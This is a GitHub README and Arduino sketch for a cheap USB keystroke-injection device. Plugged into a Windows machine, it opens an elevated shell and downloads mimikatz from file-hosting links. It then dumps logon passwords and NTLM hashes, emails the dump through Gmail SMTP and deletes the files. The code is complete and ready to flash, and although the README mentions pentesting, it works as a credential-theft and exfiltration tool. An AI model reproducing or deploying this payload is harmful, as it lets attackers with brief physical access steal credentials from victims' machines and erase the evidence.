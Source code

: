 # Arduino-mimikatz-dump-and-report-via-email-for-windows-10
## Runs mimikatz locally from a portable arduino and emails you the report. The Budget Rubber Ducky.

mimikatz dumps the NTLM password hashes, system information and more, very useful for pentesting.

Tested on windows 10, 8, 7, *Vista* on both x64 and x86.

This script was optimised to run off portable arduino's such as the Arduino Pro Micro (really cheap at $3) but will also work on others.

#### Script run time: 5-10 seconds on an Arduino Pro Micro using the Arduino Leonardo chip
<img src="https://github.com/valkyrix/Arduino-mimikatz-dump-and-report-via-email-for-windows-10/raw/master/pro_micro.jpg" align="middle" height="600" width="600" >

Mimicats binaries have been hardcoded but they can be changed by replacing the two url's within the powershell command.

The script has been setup to communicate with the gmail smtp server but can be used with any email provider really.

Replace `EMAIL` and `PASSWORD` placeholders with your own.
Change the SMTP server and port information if you are not using gmail as the provider.

#### Script stages

- Launch elevated command prompt.
- Download the correct mimikatz exe based on processor type.
- Execute mimikatz and export data.
- Email the output to selected email address as an attachment using powershell's SMTP .
- Remove all traces on the system.

```Arduino
#include "Keyboard.h"

void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  Keyboard.begin();
  delay(500);
  Keyboard.press(KEY_LEFT_CTRL);
  delay(200);
  Keyboard.press(KEY_ESC);
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.print("cmd.exe");
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_LEFT_SHIFT);
  Keyboard.press(KEY_RETURN);
  delay(200);
  Keyboard.releaseAll();

  delay(1000);

  // Download the correct exe based on processor type
  Keyboard.print("powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?cw5v9jryul','%TEMP%\\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?13f1u3iqc3','%TEMP%\\pw.exe');}");
  typeKey(KEY_RETURN);
  delay(1500);

  // execute and export output from mimikatz
  Keyboard.print("%TEMP%\\pw.exe > C:\\pwlog.txt & type C:\\pwlog.txt;");
  typeKey(KEY_RETURN);
  delay(100);
  Keyboard.print("privilege::debug");
  typeKey(KEY_RETURN);
  Keyboard.print("sekurlsa::logonPasswords full");
  typeKey(KEY_RETURN);
  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("del %TEMP%\\pw.exe");
  typeKey(KEY_RETURN);
  delay(300);

  // email log via gmail
  Keyboard.print("powershell -ExecutionPolicy ByPass");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("$SMTPServer = 'smtp.gmail.com'");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo = New-Object Net.Mail.SmtpClient($SMTPServer, 587)");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.EnableSsl = $true");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('EMAIL', 'PASSWORD');");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail = New-Object System.Net.Mail.MailMessage");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.From = 'EMAIL'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.To.Add('EMAIL')");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Subject = 'Mimikatz report'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Body = 'script by Valkyrix.github.io'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Attachments.Add('C:\\pwlog.txt')");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Send($ReportEmail)");
  typeKey(KEY_RETURN);
  delay(7000);

  Keyboard.print("exit");

  typeKey(KEY_RETURN);

  // Cleanup and flee the scene.
  Keyboard.print("del C:\\pwlog.txt");
  typeKey(KEY_RETURN);
  delay(300);

  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
```


